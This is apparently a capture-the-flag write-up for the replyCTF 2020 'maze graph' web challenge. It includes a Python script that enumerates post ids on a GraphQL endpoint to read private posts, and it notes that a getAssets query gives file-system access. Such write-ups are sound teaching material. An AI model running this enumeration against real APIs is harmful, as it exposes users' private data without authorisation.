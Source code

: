 ```yaml
---
layout: post
category: web
title: replyCTF 2020 - maze graph
tags: 
    - rixxc
---
```


# Overview

The task provides us with a graphql endpoint.

# Exploit

The API provided us with a way to list public posts and a way to list posts by id. This could be used to access private notes by enumerating all ids.

```python
from gql import gql, Client, AIOHTTPTransport

transport = AIOHTTPTransport(url="http://gamebox1.reply.it/a37881ac48f4f21d0fb67607d6066ef7/graphql")


client = Client(transport=transport, fetch_schema_from_transport=True)

query = gql(
    """
    query {
  allPublicPosts{
    id
  }
}
"""
)

result = client.execute(query)

ids = list(map(lambda x: int(x['id']) ,result['allPublicPosts']))
print(ids)

for i in range(1,251):
    if i not in ids:
        query2 = gql(
            f"""
            query {{
            post(id: {i}) {{
                id,
                content,
                public
                }}
                }}
            """
        )
        result = client.execute(query2)
        #print(i)
        #print(result)
        if 'delete' in result['post']['content']:
            print(result)
```

One of the private notes contains a message with a hint to delete a specific file.

Another graphql query (getAssets) allowed to access files on the filesystem. This could be used to access the file and obtain the flag.
